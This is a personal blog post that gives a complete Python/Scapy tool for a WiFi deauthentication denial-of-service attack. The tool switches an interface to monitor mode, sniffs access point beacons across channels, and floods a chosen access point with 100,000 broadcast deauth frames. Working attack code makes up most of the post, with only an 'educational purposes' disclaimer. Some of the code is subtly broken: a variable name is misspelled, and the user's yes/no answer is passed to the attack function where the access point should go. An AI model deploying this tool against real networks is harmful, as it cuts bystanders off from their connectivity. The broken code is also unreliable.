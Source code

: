 ```yaml
---
title: "Deauthentication attack against WiFi"
date: 2021-11-07T15:18:06+01:00
draft: false
---
```


A while ago I learned about deauthentication attacks on WiFi access points (AP). Simply put you should be able to perform a DoS attack on a WiFi without having to authenticate to it.
The attack is performed by sending a deauth management frame to the AP. I wanted to try it out and learn how and if it actually works. I found that it did and here is my implementation in Python. I had a great time developing this implementation and testing it out. It worked fine for me but it is possibly not risk free. Be cautious and use it only for educational purposes :) 

## Laying the groundwork
To run this from your laptop you will need a wireless network interface that support [monitor mode](https://en.wikipedia.org/wiki/Monitor_mode). Luckily mine did and I can switch to it by running `iwconfig <wireless-interface> mode monitor`. Similarly I can go back to managed mode with the same command after performing the attack. This is a bit simplified but the following Python code will describe how to go back and fort between managed- and monitor mode. As you can see at the end there is also a function for setting the channel of the network interface, but we will get to that in a bit. The commands might depend on you OS, I ran with Ubuntu 20.04 but there is probably equivalent commands for you.


```python
# network_interface.py
from subprocess import run


def monitor_mode(interface: str):
    run(["systemctl", "stop", "NetworkManager"])
    run(["ifconfig", interface, "down"])
    run(["iwconfig", interface, "mode", "monitor"])
    run(["ifconfig", interface, "up"])


def managed_mode(interface: str):
    run(["ifconfig", interface, "down"])
    run(["iwconfig", interface, "mode", "managed"])
    run(["ifconfig", interface, "up"])
    run(["systemctl", "start", "NetworkManager"])


def hop_channel(interface: str, channel: int):
    run(["iwconfig", interface, "channel", str(channel)])
```


## Detect your target
Next we need to detect the details of your target. This is very easy because WiFi AP's emit beacons that shout out it's name and what MAC-address it has. It makes sense because how else would you computer be able to find AP's nearby? To do this in Python we will use Scapy to sniff for the beacons and collect the information necessary from them. Here we need to scan all channels that are relevant, because when we are in monitor mode we can only detect AP's on the current channel. 


```python
# wifi.py
from time import sleep
from typing import Sequence
from scapy.all import AsyncSniffer, Dot11, Dot11Deauth, RadioTap, sendp
from access_point import AccessPoint
from network_interface import hop_channel


def detect_networks(interface: str, channels: Sequence[int]):
    """
    Detect WiFi access points
    """
    print("Scanning for nearby WiFi networks...")
    access_points = {}
    
    for channel in channels:
        hop_channel(interface, channel)
        packets = _sniff_wifi_beacons(interface)
        for packet in packets:
            access_points[packet.addr2] = AccessPoint(mac=packet.addr2, ssid=packet.info.decode('utf-8'), channel=channel)
    access_points = list(acces_points.values())
    access_points.sort(key=lambda n : n.ssid)
    return access_points


def _sniff_wifi_beacons(interface):
    """
    Sniff for 802.11 beacon frames
    """
    sniffer = AsyncSniffer(iface=interface, filter="wlan type mgt subtype beacon", store=True)
    sniffer.start()
    sleep(2)
    sniffer.stop()
    return sniffer.results
```

Whenever we find an AP we will use the small model class AccessPoint and save it for later.

```python
# access_point.py
from dataclasses import dataclass


@dataclass
class AccessPoint():
    mac: str
    ssid: str
    channel: str
```

## Attack

We will extend the file `wifi.py` with the logic of the actual attack. Once we have the MAC-address of the target we will craft Dot11Deauth packet and spam the access point with it. Here we are targeting the broadcast MAC-address which will deny access for all devices until we reach the count of 100000 packets sent.

```python
def attack(interface: str, access_point: AccessPoint):
    hop_channel(interface, access_point.channel)
    target_device = "FF:FF:FF:FF:FF:FF"
    packet = RadioTap()/Dot11(type=0, subtype=12, addr1=target_device, addr2=access_point.mac, addr3=access_point.mac)/Dot11Deauth(reason=7)
    sendp(packet, inter=0.1, count=100000, iface=interface, verbose=1)
```

## Tie it all together
Lastly here is the main script that ties it all together. It will initially scan for the available AP's and then prompt you for which one you want to attack. 
The channels are magically hard coded but you can check out what make sense for where you live [here](https://en.wikipedia.org/wiki/List_of_WLAN_channels).


```python
from wifi import detect_networks, attack
from network_interface import monitor_mode, managed_mode


CHANNELS = [1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 36, 40, 44, 48, 52, 56, 60, 64]
WIFI_INTERFACE = "wlp4s0"

monitor_mode(WIFI_INTERFACE)
acces_points = detect_networks(WIFI_INTERFACE, CHANNELS)

for i, ap in enumerate(acces_points):
    print(f"{i}: {ap}")

option = input("Select which network to deauthenticate and hit return: ")
acces_point = acces_points[int(option)]
answer = input(f"Are you sure you want to deauthenticate {acces_point.ssid}? Y/n ")
if not answer == "Y":
    exit(0)

attack(WIFI_INTERFACE, answer)
managed_mode(WIFI_INTERFACE)
```

Hope you enjoyed the read and if you want to check out the source code you find on [GitHub](https://github.com/krausen/wifi-deauthentication)
